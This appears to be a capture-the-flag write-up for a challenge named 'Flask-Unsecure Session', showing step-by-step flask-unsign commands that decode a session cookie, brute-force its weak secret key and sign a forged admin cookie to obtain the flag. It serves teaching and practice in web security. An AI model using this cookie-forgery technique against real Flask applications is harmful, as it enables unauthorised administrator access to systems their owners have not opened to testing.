

# 🧩Challenge : Flask-Unsecure Session

# 🔍 Description
- The main goal of this challenge is to log in as the administrator.

- To do that, we need to modify the session cookie using the secret key.


# ⚙️ Exploitation

- The first step of the exploitation is to retrieve the session cookie.

- Once we have the cookie, we decode it using flask-unsign:
```
flask-unsign --decode --cookie 'eyJhZG1pbiI6ImZhbHNlIiwidXNlcm5hbWUiOiJndWVzdCJ9.ZWcbSg.GH7JKQrs4JnmRG8PMMdaBbc9g48'
```
- Result : ``{'admin': 'false', 'username': 'guest'}``
- The next step is to brute-force the secret key: 
```
flask-unsign --unsign --cookie < YOUR_FILE_CONTAIN_COOKIE
```
- Once we recover the secret key, we can forge an admin cookie:
```
flask-unsign --sign --cookie "{'admin': 'true', 'username': 'admin'}" --secret 's3cr3t'
```
- Result : ``eyJhZG1pbiI6InRydWUiLCJ1c2VybmFtZSI6ImFkbWluIn0.ZWckuA.CRCTZQZdCWArXiz73JogtdSn3KQ``
- Finally, replace the session cookie with this new value — and you get the flag.